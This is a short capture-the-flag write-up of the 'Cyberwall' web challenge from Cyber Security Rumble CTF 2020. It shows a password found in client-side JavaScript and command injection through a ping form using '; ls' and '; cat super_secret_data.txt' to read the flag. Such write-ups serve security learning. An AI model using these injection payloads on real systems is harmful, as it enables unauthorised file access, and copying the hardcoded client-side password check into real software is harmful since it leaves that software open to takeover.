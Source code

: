 # Cyberwall - Cyber Security Rumble CTF 2020


# Cyberwall

- Category: web

*"We had problems with hackers, but now we got a enterprise firewall system build by a leading security company."* with a link to http://chal.cybersecurityrumble.de:3812.

## Web page http://chal.cybersecurityrumble.de:3812

The source code of the page reveals password `rootpw1337`:

```html

<!DOCTYPE html>
<html lang="de">
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
        <link rel="stylesheet" type="text/css" href="/static/login.css">
        <title>Cyberwall</title>
    </head>
    <body>
        <script type="text/javascript">
            function checkPw() {
              var pass = document.getElementsByName('passwd')[0].value;
              if (pass != "rootpw1337") {
                alert("This Password is invalid!");
                return false;
              }
              window.location.replace("management.html");
            }
...
```

## Debugging

The debugging section has an HTTP form with a text to submit (POST):

```html
<h1>Test Host Connection</h1>
<p>Send a ping to a host, to heck your connection.</p>
<form method="POST">
    <input type="text" name="target">
    <input type="submit" value="Ping!" />
</form>
```

The input of *text* is not correctly sanitized, so we try: `; ls`:

![](/images/csr20-cyberwall-ping.png)

Then, we try `; cat super_secret_data.txt`, which provides:

```
CSR{oh_damnit_should_have_banned_curl_https://news.ycombinator.com/item?id=19507225}
```

This is the flag :)

